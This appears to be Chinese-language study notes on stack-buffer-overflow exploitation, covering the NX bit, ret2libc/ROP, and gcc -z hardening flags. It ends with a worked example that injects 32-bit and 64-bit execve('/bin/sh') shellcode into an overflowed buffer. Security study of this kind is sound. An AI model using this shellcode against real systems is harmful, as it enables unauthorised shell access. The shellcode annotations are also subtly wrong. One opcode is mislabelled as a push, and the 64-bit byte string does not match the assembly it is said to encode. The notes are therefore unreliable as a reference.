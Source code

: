 第一步push old rbp 然后将当前rsp赋值给rbp所以old rbp位于当前rbp上方(栈的高地址处)然后分配局部变量空间。

所有构建出了基于0xc到达rbp处还需要再加上old rbp的8byte

结果如下:

```
b'AAAAAAAAAAAAAAAAAAAA2\x11@\nsuccess!\n'
```


<div id=c1-3-2><h3>No eXecute</h3></div>

这是将内存页属性设置为不可知性从而阻止攻击。这边bit位可以参见`OS/blog_os/blog_os_cn/paging-introduction.md`。部分攻击会通过栈溢出的方式将恶意代码植入。这时候如果pc指向这些nx，会触发硬件层面的异常。需要硬件以及软件方面的支持。需要支持分页系统。然后`GOT`部分见`source2elf.md`这边代码一般.text才是可执行的。那么这些溢出方式攻击`GOT`的方式一般无效。但是代码重用来进行攻击 ret2libc 还是可用。因为本身`nx`bit是0.比如将代码返回地址变为libc的system函数然后传递参数设置为某条shell指令。这时候nx保护机制就无效了。

攻击有很多种方式 其中包含栈溢出覆盖返回地址 这种可以通过canary值来保护.某些情况下 rop攻击通过已有的函数指令来实现攻击，比如通过修改寄存器或者内存数据。程序中已经含有类似system等调用 将栈上或者寄存器种数据修改实现shellcode.此处并不需要修改函数返回地址。




gcc -z是针对运行时栈的设置。


1. -z execstack: 这个选项告诉链接器生成的可执行文件或共享对象的栈是可执行栈。也就是说，栈空间可以包含可执行代码。
2. -z noexecstack: 这个选项与 -z execstack 相反，它使得生成的对象的栈空间不可执行，这是一个常用的安全特性，可以防止一些缓冲区溢出的攻击。
3. -z relro: 这个选项让链接器把进程启动后，不会再被修改的部分进行标记。启动这个选项有助于防止某些类型的缓冲区溢出攻击。
4. -z now: 当打开了这个选项，动态链接器会在程序启动时解析所有的动态符号，这样可以避免潜在的运行时解析的问题。
4. -z lazy: 这个选项与 -z now 相反，动态链接器会在程序运行过程中，延迟解析动态符号，直到这些符号被用到。


默认是rw不可执行。`readelf -l`可以看到。


0

下面是一个攻击示例,关闭nx。需要先确定当前rbp栈帧中buffer初始的位置 然后将shellcode写入buffer 最后溢出将ret指向shellcode的位置。此处buffer开始为shellcode。 代码见`nx/code`

`\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

下面是对这个 shellcode 的简单解释(32bit)：

- \x31\xc9：xorl %ecx,%ecx；将 ecx 寄存器清零。
- \xf7\xe1：pushl %ecx；将清零后的 ecx 寄存器的值压入栈中。
- \xb0\x0b：movb $0xb,%al；将值 0xb 赋给 al 寄存器，这是系统调用号，对应于 Linux 的 execve 系统调用。
- \x51：pushl %ecx；再次将 ecx 寄存器的值（0）压入栈中，作为 execve 的 argv 指针。
- \x68\x2f\x2f\x73\x68：pushl $0x68732f2f；将字符串 "//sh" 的反序形式压入栈中，作为 execve 的参数之一。
- \x68\x2f\x62\x69\x6e：pushl $0x6e69622f；将字符串 "/bin" 的反序形式压入栈中，与前面的 "//sh" 组合成 "/bin//sh"。
- \x89\xe3：movl %esp,%ebx；将栈指针 esp 的值赋给 ebx 寄存器，此时 ebx 指向刚才压入的 "/bin//sh" 字符串。
- \xcd\x80：int $0x80；触发中断 0x80，执行 Linux 系统调用。
当这个 shellcode 被插入到程序的某个缓冲区，并由于缓冲区溢出而被执行时，它会尝试启动一个新的 shell。

`\x48\x31\xd2\x52\x48\xbf\x2f\x62\x69\x6e\x73\x68\x00\x57\x48\x89\xe7\x48\x31\xf6\xb0\x3b\x0f\x05`

```assembly
      xor rdx, rdx           ; rdx = 0，NULL，execve 的第三个参数 envp
    push rdx               ; 确保构造下面rdi push后的截断NULL 确保不越
    ; 将 "/bin/sh" 字符串入栈
    mov  rdi, 0x68732f6e69622f   ;  将 "/bin/sh" 的 ASCII 码存储到 rdi hs/nib/ 因为入栈高到低 读取低到高 然后低位在栈顶 也是低地址处。 0x68732f6e69622f
    push rdi               ; "/bin/sh"，execve 的第一个参数 filename
    mov rdi, rsp           ; rdi 指向字符串 "/bin/sh" 的地址，作为 execve 的 filename 参数
    xor rsi, rsi           ; rsi = 0，NULL 参数argv
    mov al, 0x3b          ; execve 的系统调用号为 0x3b (59)
    syscall 
```
